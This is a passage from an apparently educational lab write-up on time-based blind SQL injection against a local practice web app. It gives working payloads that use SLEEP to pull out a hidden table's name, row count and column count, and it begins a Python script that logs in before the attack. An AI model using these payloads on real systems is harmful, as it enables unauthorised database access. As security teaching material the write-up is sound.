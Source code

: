 4. **Finding the Table Name Characters:**
   Once the length is known, the next step is to find the actual characters of the table name. The payload ` ' AND IF((SELECT SUBSTRING(table_name,{i},1) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secure' LIMIT 1) = '{char}', SLEEP(5), 0) -- ` is used:
   - `SUBSTRING(table_name,{i},1)` retrieves the character at position `i`.
   - The condition checks if the character matches `char`.
   - If true, the query sleeps for 5 seconds, indicating a match.

5. **Finding the Number of Rows:**
   After determining the table name, the next step is to find the number of rows in the table. The payload ` ' AND IF((SELECT COUNT(*) FROM `secure`.`{table_name}`) = {i}, SLEEP(5), 0) -- ` is used:
   - `COUNT(*)` retrieves the total number of rows.
   - The condition checks if the count equals `i`.
   - If true, the query sleeps for 5 seconds, indicating a match.

6. **Finding the Number of Columns:**
   Finally, the number of columns in the table is determined using the payload ` ' AND IF((SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'secure' AND table_name = '{table_name}') = {i}, SLEEP(5), 0) -- `:
   - `COUNT(*)` retrieves the total number of columns.
   - The condition checks if the count equals `i`.
   - If true, the query sleeps for 5 seconds, indicating a match.

#### Python Script Usage
The provided Python script automates this blind SQL injection process:
- It sends a POST request to log in.
- It uses a time-based SQL injection payload to find the length and characters of the hidden table name.
- It determines the number of rows and columns in the discovered table.

By running this script, we successfully discovered the hidden table `789b05678e7f955d2cf125b0c05616c9` and determined that it has 1 row and 2 columns, demonstrating the risks of blind SQL injection on insecure web applications.

### Summary
The blind SQL injection worked by leveraging time delays to infer the presence of specific values. This method allowed us to discover the hidden table and extract critical information about it, highlighting the importance of securing SQL queries against such attacks by using prepared statements or parameterized queries.


```python
import requests
import string
import time
from IPython.display import display, HTML

# URL of the login and blind SQLi pages
login_url = 'http://localhost:8000/login.php'
sqli_url = 'http://localhost:8000/blindsqli.php?user=bob'

# Credentials for login
username = 'bob'
password = 'password'  # Assuming the password for bob is 'password'

# Create a session to persist cookies
session = requests.Session()

# Data to be sent in the POST request for login
login_data = {
    'uid': username,
    'password': password
}

# Send the POST request to login
login_response = session.post(login_url, data=login_data)
```